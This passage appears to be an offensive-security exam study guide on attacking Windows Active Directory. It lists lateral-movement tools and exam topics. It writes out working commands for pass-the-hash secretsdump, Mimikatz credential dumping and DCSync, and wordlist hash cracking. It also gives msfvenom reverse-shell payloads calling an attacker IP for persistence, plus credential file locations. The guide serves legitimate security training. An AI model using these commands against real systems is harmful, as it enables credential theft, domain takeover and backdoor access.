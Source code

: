 - `impacket-secretsdump 'domain/username@<target-ip>' -hashes :NTLM`
- CrackMapExec

### Lateral Movement Tools

- smbexec
(https://github.com/fortra/impacket/blob/master/examples/smbexec.py)
- wmiexec
(https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
- psexec
(https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- evil-winrm (https://github.com/Hackplayers/evil-winrm)

[Optional DLL hijacking](https://lsecqt.github.io/Red-Teaming-Army/malware-development/weaponizing-dll-hijacking-via-dll-proxying/)

## 09. Exam Preparation

### Tools for Exam Preparation

- Bloodhound
- WinPwn (For the exam there will be task to analyze the output of WinPwn)
  - Discover different Password Spraying attacks
- ADRecon

### Possible Exam Tasks

- Analyze and crack hashes
- Analyze Password Spraying attacks (username = password)
- Analyze certain hash that is used by xp_dirtee
- Analyze exploit with xp_cmdshell (not that important for the exam)
- Searchsploit
- Crack NTLMv1 and NTLMv2, WPA hashes!!!
  `aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <file.cap>`

- In theoretical envoronment - where in Windows and where in AD are the hashes stored
  SAM - C:\Windows\System32\config\SAM
  Lsass - C:\Windows\System32\lsass.exe (in memory)
  NTDS.dit - C:\Windows\NTDS\NTDS.dit
- What is the difference between Local and Domain Account?

- Understand Responder and how it works
- Linpeas and Winpeas.
- Different Potato attacks (Rouge, Sweet, Juicy) - theoretical and practical(maybe).
- Understand what is Mimikatz and how it works.
  - Credential dumping
    `privilege::debug` `sekurlsa::logonpasswords`
    `whoami /all` mandatory level high/system is needed to use Mimikatz
  - DCSync attack - domain level admin is needed
    `privilege::debug`
    `lsadump::dcsync /domain:<FQDN> /user:username`
  - DCSync with Impacket
    `impacket-secretsdump 'domain/username@<dc-ip>' -hashes :NTLM`
- Laterall movement tools
  - smbexec
  - wmiexec
  - psexec
  - evil-winrm
- Establishing persistence
  - Exe binding - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o evil.exe`
  - DLL hijacking - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f dll -o evil.dll`
  - Shortcut links
  - Registry Tweaks